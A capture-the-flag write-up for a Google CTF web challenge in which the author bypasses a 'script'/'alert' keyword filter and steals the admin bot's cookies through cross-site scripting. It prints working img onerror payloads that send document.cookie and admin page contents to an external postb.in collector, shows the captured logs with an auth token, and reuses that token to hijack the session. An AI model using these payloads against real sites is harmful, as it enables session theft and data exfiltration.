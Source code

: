 Cookie World Order (**web**)

    Good job! You found a further credential that looks like a VPN 
    referred to as the cWo. The organization appears very clandestine 
    and mysterious and reminds you of the secret ruling class of hard 
    shelled turtle-like creatures of Xenon. Funny they trust their 
    security to a contractor outside their systems, especially one with 
    such bad habits. Upon further snooping you find a video feed of 
    those "Cauliflowers" which look to be the dominant lifeforms and 
    members of the cWo. Go forth and attain greater access to reach 
    this creature!

Similarly with day 3 web problem case, we have a URL: https://cwo-xss.web.ctfcompetition.com/

Opening it and observing very similar page with Admin and field for 
input some text message.

Trying to copy-paste previous solution:

    <script>
    var img=new Image();
    img.src="https://postb.in/1561479835927-8693528019357?cookie="+document.cookie;
    </script>

leads to reply "HACKER ALERT!".
After typing different string it comes out that input must not contain 
`script` or `alert` as a substring. Well, modern WEB is full of tricks 
and wistles. If you (like me) have no expirience with web programming, 
Googling can conpensate it. Just request something like "bypassing XSS 
filter".

Our first:

    <scrip&#0000116>
    aler&#0000116('XSS');
    </scrip&#0000116>

Unfortunately, server removed `<script>` tag. Hm, maybe there are tags 
that are "allowed", do check:
    
    <b> bold </b> 
    <a href="google.com"> google </a> 
    <img src="https://cwo-xss.web.ctfcompetition.com/static/img/profile.png">

Yes, links and images work well! But links mostly requires user's 
actions, and we can be sure, that Admin bot will not click on any.
Now, back to the googling. And quickly find out that it is quite easy 
to call javascript from some event handlers, and if we can fire these 
events, then we can execute script. Common place is `onerror` event of 
`img` node, and it is very easy to fire error, just by giving it 
inproper source URL. Let's use our PostBin and try:

    <img src=x onerror="javascrip&#0000116:
    var img=new Image();
    img.src='https://postb.in/1561495195584-1681611498352?cookie='+document.cookie;">

... and back to PostBin:

    GET /1561495195584-1681611498352 2019-06-25T20:40:15.156Z
    Headers

        x-real-ip: 104.155.55.51
        host: postb.in
        connection: close
        pragma: no-cache
        cache-control: no-cache
        sec-fetch-mode: no-cors
        user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36
        accept: image/webp,image/apng,image/*,*/*;q=0.8
        sec-fetch-site: cross-site
        referer: https://cwo-xss.web.ctfcompetition.com/exploit?reflect=%3Cimg%20src=x%20onerror=%22javascrip&
        accept-encoding: gzip, deflate, br

    Query

        cookie: flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}; auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz

    Body

But what could we see in Admin panel with his auth token? Open 
WenConsole, do

    document.cookie="auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz"

and click on "Admin" link. What we have here... Users and Livestreams 
seems are not working. Camera Controls say requests are allowed only 
from 127.0.0.1 (localhost). Maybe those HeadlessChrome-bot is on the 
same host with server? Let's try to see how bot renders this page:

    <img src=x onerror="javascrip&#0000116:
    fetch('/admin/controls', {method: 'get'}).then((res) => { return res.text(); }).then((data) => {
          var img=new Image();img.src='https://postb.in/1561495316858-4828648881521?'+data;
    });">

Bad luck, he see the same message:

    GET /1561495316858-4828648881521 2019-06-25T21:03:13.407Z
    Headers

        x-real-ip: 104.155.55.51
        host: postb.in
        connection: close
        pragma: no-cache
        cache-control: no-cache
        sec-fetch-mode: no-cors
        user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36
        accept: image/webp,image/apng,image/*,*/*;q=0.8
        sec-fetch-site: cross-site
        referer: https://cwo-xss.web.ctfcompetition.com/exploit?reflect=%3Cimg%20src=x%20onerror=%22javascrip&
        accept-encoding: gzip, deflate, br

    Query

        Requests only accepted from 127.0.0.1: 

(but there is some another way to look on this page and to gen second 
flag)

Ok, the flag is

**CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}**
